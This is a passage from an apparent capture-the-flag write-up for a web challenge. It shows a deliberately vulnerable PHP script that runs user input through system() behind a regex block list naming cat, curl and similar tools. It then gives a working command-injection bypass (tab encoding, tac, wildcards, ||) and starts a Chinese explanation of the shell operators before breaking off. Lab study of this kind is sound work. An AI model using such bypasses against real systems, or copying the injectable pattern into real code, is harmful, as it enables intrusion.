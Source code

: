 ![[Pasted image 20240906114401.png]]
# Web 49
```PHP
<?php  
  
/*  
# -*- coding: utf-8 -*-  
# @Author: h1xa  
# @Date:   2020-09-05 20:49:30  
# @Last Modified by:   h1xa  
# @Last Modified time: 2020-09-05 22:22:43  
# @email: h1xa@ctfer.com  
# @link: https://ctfer.com  
  
*/  
  
  
if(isset($_GET['c'])){
	$c=$_GET['c'];  
    if(!preg_match("/\;|cat|flag| |[0-9]|\\$|\*|more|less|head|sort|tail|sed|cut|awk|strings|od|curl|\`|\%/i", $c)){
	    system($c." >/dev/null 2>&1");  
    }  
}else{
	highlight_file(__FILE__);  
}
```
Use `%09` replace the `Tab`, Use `tac` to replace the `cat`, use %?% to complete the `flag.php`.
So we use `/?c=tac%09fla?.php`.
Then we use `||ls` to avoid the pipeline `>/dev/null 2>&1`.
All in all, `/?c=tac%09fla?.php||ls`
==Why not `&&` but `||`?==
这两条URL命令的行为不同是因为 **`||`** 和 **`&&`** 是在Unix/Linux Shell中具有不同含义的逻辑运算符。它们的工作原理决定了为什么前者能够显示 `flag.php` 的内容，而后者不能。

### 1. **`||` 和 `&&` 的含义**

- **`||`** （逻辑或）：表示**如果前一个命令执行失败**（返回非零退出状态码），那么才会执行后面的命令。
- **`&&`** （逻辑与）：表示**只有前一个命令执行成功**（返回零退出状态码），后面的命令才会执行。

### 2. **URL中的命令分析**

#### **前者：`URL/?c=tac%09fla?.php||ls>/dev/null 2>&1`**

解码后是：
```bash
tac	fla?.php || ls > /dev/null 2>&1
```

- **`tac	fla?.php`**：`tac` 命令用于从文件末尾开始逐行输出内容，而 `%09` 是一个制表符，虽然可能影响文件名匹配，但在此我们假设 `fla?.php` 匹配到了目标文件 `flag.php`。`?` 通配符代表单个字符，所以 `fla?.php` 可能匹配到 `flag.php`。
